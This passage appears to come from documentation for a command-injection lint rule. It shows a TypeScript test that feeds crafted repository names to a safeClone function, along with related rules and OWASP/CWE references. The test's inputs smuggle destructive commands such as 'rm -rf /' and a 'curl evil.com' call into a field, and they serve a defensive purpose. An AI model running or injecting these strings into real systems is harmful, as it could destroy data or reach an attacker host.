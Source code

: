 ## Testing Security

```typescript
// Test command injection attempts
const injectionAttempts = [
  'repo}; rm -rf /; #',
  'repo`rm -rf /`',
  'repo$(rm -rf /)',
  'repo; curl evil.com',
  'repo && evil-command'
];

for (const attempt of injectionAttempts) {
  expect(() => safeClone(attempt)).toThrow();
}
```

## Related Rules

- `detect-eval-with-expression` - Code injection prevention
- `detect-non-literal-fs-filename` - Path traversal prevention
- `detect-object-injection` - Prototype pollution prevention
- `detect-non-literal-regexp` - ReDoS prevention

## Further Reading

- [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [Node.js Child Process Security](https://nodejs.org/api/child_process.html#child_process_security)
- [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)
- [Execa Library](https://github.com/sindresorhus/execa)

